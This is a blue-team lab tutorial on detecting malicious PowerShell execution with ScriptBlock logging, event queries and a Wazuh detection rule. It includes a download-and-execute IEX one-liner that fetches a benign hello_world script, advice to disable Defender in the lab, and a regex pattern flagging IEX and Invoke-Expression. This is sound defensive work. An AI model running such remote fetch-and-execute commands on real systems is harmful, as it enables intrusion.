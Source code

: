 ```yaml
---
title: Detecting Malicious Script Execution in PowerShell
date: 2024-05-25 06:00:00 -0600
categories: [blueteam, detection]
tags: [difficulty:low, endpoint, os:windows]
image:
  path: https://github.com/lr2t9iz/c-137labs.mitzep.com/assets/46981088/3d7c8a9b-d0d6-4a44-9078-b62956a3ac16
---
```


PowerShell, a powerful Windows command-line shell and scripting language, is often abused by adversaries to execute malicious scripts and commands, one of the most commonly used techniques according to [redcanary](https://redcanary.com/threat-detection-report/techniques/). 

We will explore how attackers leverage PowerShell's capabilities to carry out their intrusions, such as those seen in recent REF4578 intrusions revealed by [Elastic Security Labs](https://www.elastic.co/security-labs/invisible-miners-unveiling-ghostengine) and [Antiy](https://www.antiy.com/response/HideShoveling.html). 
  
![image](https://github.com/lr2t9iz/c-137labs.mitzep.com/assets/46981088/260b397b-dcba-45d8-bd7b-41347601c406){: .w-75 }
_[@elasticseclabs](https://x.com/elasticseclabs/status/1792932108073132451)_

## Execution in PowerShell
[T1059.001: PowerShell](https://attack.mitre.org/techniques/T1059/001/), This technique is post-exploitation, meaning that the attacker already has access to a machine and will execute their scripts, similar to the approach used in GhostEngine mining attacks.

![image](https://www.elastic.co/security-labs/_next/image?url=%2Fsecurity-labs%2Fassets%2Fimages%2Finvisible-miners-unveiling-ghostengine%2Fimage10.png&w=1920&q=100){: .w-75 }
_Source: Elastic Security Labs **Download and Excecute a PowerShell Script**_

## Collection
Enabling PowerShell logging is crucial for effective detection of malicious activities. By default, Windows has PowerShell logging disabled, which can hinder our ability to monitor and respond to threats. By configuring detailed logging, we can capture information about every **script block** and **command** executed in PowerShell.
- Open a PowerShell as **Administrator** and run the following commands
```powershell
$basePath = "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
if (-not (Test-Path $basePath)) { $null = New-Item $basePath -Force }
Set-ItemProperty $basePath -Name EnableScriptBlockLogging -Value "1"
```

## Simulation
For the simulation, we will execute a command line in Cmd to observe how it is logged and detected in lab host. To ensure the commands are executed without interference, we will temporarily disable Windows Defender's real-time protection for testing purposes. This will help us understand the logging process and identify key indicators of potentially malicious activity.
```batch
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/lr2t9iz/PowershellScriptsHub/main/hello_world.ps1');"
```
- Output
![image](https://github.com/lr2t9iz/c-137labs.mitzep.com/assets/46981088/9ae2ba5a-4234-4957-a83f-51cdaf6718c9)

## Result
To look up for malicious script execution, we will use the following PowerShell command to query the event logs.
```powershell
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" `
-FilterXPath '*[System[EventID=4104]]' | Sort-Object -Property TimeCreated `
| Where-Object {$_.ToXml().Contains("hello_world")} | fl
```
- Result
![image](https://github.com/lr2t9iz/c-137labs.mitzep.com/assets/46981088/aea657fe-259a-4531-8184-f7fb7a5a7af9)

## Detection
To do the detection we must have a S1EM ready. if you don't have it yet you can create it following these steps, [Wazuh S1EM](https://c-137lab.com/posts/wazuh-s1em/)

Search for the event in the S1EM
- Wazuh ﹀ Modules > Security events
- Put the following query in the search bar and click on ***Update***
```
data.win.system.channel:"Microsoft-Windows-PowerShell/Operational" AND data.win.system.message:*hello_world*
```
- Query Result
![image](https://github.com/lr2t9iz/c-137labs.mitzep.com/assets/46981088/614fe54e-94cc-471f-b10d-493586481e1f)
- To see the content of the script, click on the ***+ sign*** of the processID.

![image](https://github.com/lr2t9iz/c-137labs.mitzep.com/assets/46981088/9950b028-c737-4e8d-bf2f-9d13f5764ad2)
![image](https://github.com/lr2t9iz/c-137labs.mitzep.com/assets/46981088/0f575891-63e5-4167-9343-6532bb7b5d95)
- To receive an alert we will modify the rule, id 91837.

```xml
<!-- aaa_w1n_overwrite.xml rule file + + + + + -->
<group name="al3rt,">
  <rule id="91837" level="4" overwrite="yes">
    <if_sid>91802</if_sid>
    <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)(Get-Content.+\-Stream|IEX|Invoke-Expresion)</field>
    <group>windows,powershell,</group>
    <description>Powershell executed "Get-Content -Stream or Invoke-Expresion". Possible string execution as code</description>
    <options>no_full_log</options>
    <mitre> <id>T1059.001</id> </mitre>
  </rule>
</group>
```
- The rule is located in the [following repository](https://github.com/lr2t9iz/wazuh-usecases-integrator/tree/main/windows/detection-rules).
- As a result, we will receive a slack alert to detect the powershell execution.
![image](https://github.com/lr2t9iz/c-137labs.mitzep.com/assets/46981088/db84acbf-8dcb-4c13-b183-7e560faa7622)
